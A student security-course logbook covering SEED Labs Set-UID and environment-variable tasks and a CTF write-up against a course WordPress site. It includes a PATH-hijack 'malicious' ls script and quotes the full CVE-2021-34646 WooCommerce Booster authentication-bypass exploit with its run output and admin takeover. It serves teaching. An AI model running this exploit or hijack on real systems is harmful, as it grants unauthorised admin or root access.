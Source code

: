 # Trabalho realizado na Semana #4

<br>

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/task1/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   <img src="images/logbook4/task1/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

<br>

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff child_env parent_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   <img src="images/logbook4/task2/overview.png" alt="Overview of task 2" width="50%" />
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

<br>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.

1. Compile the `myenv.c` file using `gcc myenv.c`.
2. Execute the program and save its output to a file using `a.out > null_env`.
3. Replace `NULL` with `environ` on the invocation of `execve`.
4. Compile the `myenv.c` file again using `gcc myenv.c`.
5. Execute the program and save its output to a file using `a.out > environ_env`.
6. Compare the changes using `diff null_env environ_env`.

<figure>
   <img src="images/logbook4/task3/overview.png" alt="Overview of task 3" width="50%" />
   <figcaption><strong>Fig 6. </strong>Overview of task 3</figcaption>
</figure>

As we can see, the `environ_env` file - when `environ` was passed to `execve` - has more environment variables
than the `null_env` file - when `NULL` was passed to `execve`. In fact, when `NULL` is passed to `execve`, the
resulting process has no environment variables.

The declaraction of `execve` helps us understand why this is the case.

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The `envp` array is the array of environment variables that will be passed to the resulting process. Therefore,
if we pass `NULL` to it, no environment variables will be passed to the resulting process and, if we pass `environ`,
the calling process' environment variables will be passed to the resulting process.

<br>

## Task 4 : Environment Variables and system()

1. Compile the following program.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
   system("/usr/bin/env");
   return 0 ;
}
```

2. Execute the program.
3. Analyze the result.

<figure>
   <img src="images/logbook4/task4/overview.png" alt="Overview of task 4" width="50%" />
   <figcaption><strong>Fig 7. </strong>Overview of task 4</figcaption>
</figure>

As we can see, the program behaves as if we called `env` directly from our shell, showing us all the process'
environment variables. When using `system`, it's as if we called the function

```c
execl("/bin/sh", "sh", "-c", "/usr/bin/env", (char *) NULL);
```

This function will afterwards call the `execve` function with the process' environment variables and, therefore,
the results will be the same.

<br>

## Task 5 : Environment Variable and Set-UID Programs

1. Compile the following program and name it `penv`.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main() {
   int i = 0;
   while (environ[i] != NULL) {
      printf("%s\n", environ[i]);
      i++;
   }
}
```

2. Make `root` the owner of `penv` using `sudo chown root penv`.
3. Set the `Set-UID` bit in `penv` using `sudo chmod 4755 penv`.

4. Change the current shell's environment variables using

```sh
export PATH=/PWNED:$PATH
export LD_LIBRARY_PATH=/PWNED
export PWNED=YES
```

5. Execute the `penv` program.

<figure>
   <img src="images/logbook4/task5/overview.png" alt="Overview of task 5" width="50%" />
   <figcaption><strong>Fig 8. </strong>Overview of task 5</figcaption>
</figure>

As we can see, both the modified `PATH` and our custom environment variable were passed to the `Set-UID` program.
The `LD_LIBRARY_PATH` environment variable, however, was not passed to the `Set-UID` program.

When a `Set-UID` program is run, the linker determines that the program is running in secure execution mode.
When in secure execution mode, the `LD_LIBRARY_PATH` is ignored to prevent the loading and execution of malicious code
in these programs. 
> Source: https://man7.org/linux/man-pages/man8/ld.so.8.html

For instance, if a hacker had write access to any directory (for instance, `/tmp`), they could compile a library
with a special implementation for a command function (`printf`, for instance). In this implementation, he could call
`system("<command to start a reverse shell>")` or any other piece of malicious code.

When executing a given `Set-UID` program, the process would execute with the privileges of the program owner amd,
if `LD_LIBRARY_PATH=/tmp` (or the directory the hacker had access to), the linker would load the malicious `printf`
implementation and the system would be compromised. The reverse shell (or any other code in the malicious implementation)
would run as `root`.

<br>

## Task 6 : The PATH Environment Variable and Set-UID Programs

1. Compile the following program and name it `myls`.

```c
#include <stdlib.h>

int main() {
   system("ls");
   return 0;
}
```

2. Make `root` the owner of `myls` using `sudo chown root myls`.
3. Set the `Set-UID` bit in `myls` using `sudo chmod 4755 myls`.

4. Save the following malicious script to a file named `ls`.

```sh
#!/bin/sh
echo "Executing malicious script..."
whoami
```

5. Make `ls` executable using `chmod 755 ls`.
   
6. Add the current working directory, where the script is located, to the start of the `PATH` environment variable, using `export PATH=$PWD:$PATH`

7. Execute the `myls` program.
   
<figure>
   <img src="images/logbook4/task6/overview.png" alt="Overview of task 6" width="50%" />
   <figcaption><strong>Fig 9. </strong>Overview of task 6</figcaption>
</figure>

In this task, we have a `Set-UID` program called `myls` which executes the command `ls`.
Since the provided path is a relative path (it doesn't start with `/`), the `ls` program will be searched in the directories
indicated in the `PATH` environment variable. Once it finds a program called `ls` in one of those directories, the shell will
execute that program.

In this case, it will execute a shell script which prints a message and identifies the effective user name of the process.
Since `myls` is executed as `root` (since `root` is the owner of the file and the `Set-UID` bit is set), its child
processes will also be executed with `root` as their effective user. This means that the shell script is executed as `root`
as well and that's why `whoami` prints `root`.

> To execute the example successfuly, the `/bin/sh` program needs to be replaced with a shell that doesn't protect itself
> against being executed from `Set-UID` programs, such as `zsh`. To do that, you should execute `sudo ln -sf /bin/zsh /bin/sh`
> before executing any of the commands above.

<br>
<br>
<br>

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
